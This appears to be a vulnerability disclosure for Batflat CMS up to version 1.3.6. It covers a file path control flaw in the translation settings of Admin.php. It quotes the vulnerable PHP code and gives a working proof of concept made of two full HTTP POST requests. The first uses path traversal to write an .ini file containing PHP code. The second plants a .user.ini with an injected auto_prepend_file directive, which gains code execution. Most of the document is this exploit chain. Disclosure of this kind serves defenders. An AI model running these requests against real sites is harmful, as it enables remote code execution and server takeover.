

version: <= 1.3.6
php version: 7.x
An external control of file name or path vulnerability (CWE-73) is in inc/modules/settings/Admin.php. At line 371, the file path and content to write are both partially controlled by the attacker. Although the extension of the file is limited to .ini, the attacker can write a .user.ini file that is supported by PHP running on fastcgi to make arbitrary code execution.
$output = [];
foreach ($toSave['front'] as $key => $value) {
$value = preg_replace("/(?<!\\\\)\"/", '\"', $value);
$output[] = str_pad($key, $pad).'= "'.$value.'"';
}
$output = implode("\n", $output);
if (file_put_contents(MODULES.'/'.$_GET['source'].'/lang/'.$_GET['lang'].'.ini', $output)) {
$this->notify('success', $this->lang('save_file_success'));
} else {
$this->notify('failure', $this->lang('save_file_failure'));
}
The POC is as follows:
evil.ini including malicious PHP code in the root directory of batflat.POST /batflat/admin/settings/translation?lang=../../../../evil&t=4c4cfaa7bdfe&source=test HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://localhost
Connection: close
Referer: http://localhost/batflat/admin/settings/translation?lang=en_english&t=4c4cfaa7bdfe
Cookie: bat=dd8j1qslmpeks1rk75if9b4jd0; PHPSESSID=i4be8p1iavv55kuv21bpn056j0; Rental_property_manager=pvo6kgtopih54m4enb292tev6v
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
test[front][<?php phpinfo();?>]=1234&save=1
the content of evil.ini will be:
<?php phpinfo();?> = "1234"
.user.ini in the root directory of batflatPOST /batflat/admin/settings/translation?lang=../../../../.user&t=4c4cfaa7bdfe&source=test HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: http://localhost
Connection: close
Referer: http://localhost/batflat/admin/settings/translation?lang=en_english&t=4c4cfaa7bdfe
Cookie: bat=dd8j1qslmpeks1rk75if9b4jd0; PHPSESSID=i4be8p1iavv55kuv21bpn056j0; Rental_property_manager=pvo6kgtopih54m4enb292tev6v
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
test[front][auto%5Fprepend%5Ffile%3Devil%2Eini%0A]=1234&save=1
the content of .user.ini will be:
auto_prepend_file=evil.ini
= "1234"
When accessing other PHP files in the same directory, the PHP code in evil.ini will be executed first.
